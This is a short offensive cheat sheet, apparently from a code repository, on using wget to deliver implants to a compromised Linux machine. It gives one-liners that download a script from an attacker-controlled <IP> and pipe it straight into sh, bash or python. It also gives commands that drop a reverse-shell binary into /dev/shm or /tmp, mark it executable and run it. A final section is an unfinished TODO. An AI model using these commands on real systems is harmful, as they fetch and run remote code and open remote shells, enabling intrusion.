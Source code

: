 # Wget

## 01 - Fileless code execution

This is useful if the machine doesn't have `curl` pre-installed so you can use `wget` to execute it in memory.

```
$ wget -qO- http[s]://<IP>/implant.sh | sh

$ wget -qO- http[s]://<IP>/implant.sh | bash

$ wget -qO- http[s]://<IP>/implant.py | python
```

## 02 - Dropping on memory

Download reverse shell binary and execute it.

```
$ wget -O /dev/shm/implant http[s]://<IP>/implant && chmod +x /dev/shm/implant && /dev/shm/implant
```

## 03 - Dropping on disk

Download reverse shell binary and execute it.

```
$ wget -O /tmp/implant http[s]://<IP>/implant && chmod +x /tmp/implant && /tmp/implant
```

## 03 - Compiled After Delivery

TODO: Fill this info

```
$ gcc
```